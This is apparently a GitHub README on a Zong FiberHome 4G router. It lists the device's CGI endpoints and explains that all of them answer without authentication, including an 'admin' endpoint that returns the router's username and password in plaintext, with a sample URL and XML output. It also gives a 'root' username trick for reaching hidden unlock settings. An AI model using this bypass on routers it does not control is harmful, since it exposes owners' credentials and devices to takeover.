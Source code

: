 
# Zong FiberHome 4G Device

## Endpoints

Base URL: `/xml_action.cgi?method=get&module=duster&file=[name]`
known file names are:
 - admin
 - app_fun_support_list
 - battery_charge
 - custom_fw
 - detailed_log
 - dns
 - download_local_upgrade
 - lan
 - lock_cell_clear
 - message
 - message_drafts
 - message_outbox
 - message_set
 - message_state
 - message_state
 - net_advace_set
 - ntp_server
 - pin_puk
 - reset
 - restore_defaults
 - shutdown
 - status1
 - time_setting
 - traffic_excess_set
 - uapxb_wlan_basic_settings
 - uapxb_wlan_security_settings
 - upgrade_info
 - ussd_business
 - wan
 - wan_choose_net
 - wan_ip
 - wlan_auto_setting

 ## Vulnerabilities and Exploits
 Although the device use a wierd authentication method, it is nothing more than a gimmick used 
 by the UI code to give an illusion of authentication.
 All the endpoints are accessible directly without authentication and the best part of it all is you can
 use the [`admin`](http://192.168.8.1/xml_action.cgi?method=get&module=duster&file=admin) endpoint to get the username and password for the router.

The output of the `admin` endpoint is something like
```
<?xml version="1.0" encoding="US-ASCII"?>
<RGW>
	<management>
		<router_username>admin</router_username>
		<router_password>admin</router_password>
		<web_wlan_enable/>
		<httpd_port/>
		<syslogd_enable/>
		<web_wan_enable/>
		<syslogd_rem_ip/>
		<turbo_mode/>
        <customer/>
	</management>
</RGW>
```

The vulerability explained above is [well know and quite old](https://github.com/OsamaMahmood/Zong-router-exploit) but wait, There's more! to my knowledge(not sure though) the `Fiber Home` version of the `Zong` devices are unlocked by default but if yours is not, you can use a simple trick to get super user access and unlock
the device direcltly from the `Admin Panel` all you have to do is login to your router and change the default **username** from `admin` to `root` and voila you can see a new tab named `Advance` in `Settings` which provides options to unlock the device, As shown below

![Advance Settings](/zong_adv_settings.PNG?raw=true "Advance Settings")